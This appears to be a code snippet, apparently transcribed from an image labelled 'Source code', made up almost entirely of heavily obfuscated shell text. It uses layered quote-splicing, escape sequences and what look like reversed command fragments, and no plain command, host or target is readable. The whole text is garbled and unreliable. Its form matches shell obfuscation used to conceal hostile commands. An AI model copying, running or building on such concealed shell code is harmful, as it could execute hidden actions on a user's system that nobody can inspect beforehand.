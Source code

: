 '"'"'m'"'"'"u"s}Ub2Qah{\I43##*{$'"'"''"'"'5"}^^@{$"'"'"'441\m'"'"'$'"'"''"'"'     }ZeQYT,1ojOq-ZPR/@{$   |  }@!{$    }*PIj~l"\+3#_!\-z/*{$     '"'"'!+.Y7-[J\!w#;'"'"'  s%     f\""t\""n""i'"'"''"'"''"'"'27x\'"'"'$""p\""    }~~@{$     }*{$    "}{\J1vptB=z|<ExsP/b#!\v,7_k!\oE_N//@{$"   ($x\"     "f"""t'"'"''"'"''"'"'651\'"'"'$'"'"'151\'"'"'$'"'"''"'"'"r"p  }!\C>_b%]\xC_"\3v%%@{$    }s-JpgE2IIM_gsQ%%*{$  *$  &&   "}~~@{$"     ")     }o5>1BN{\q%*{$   ]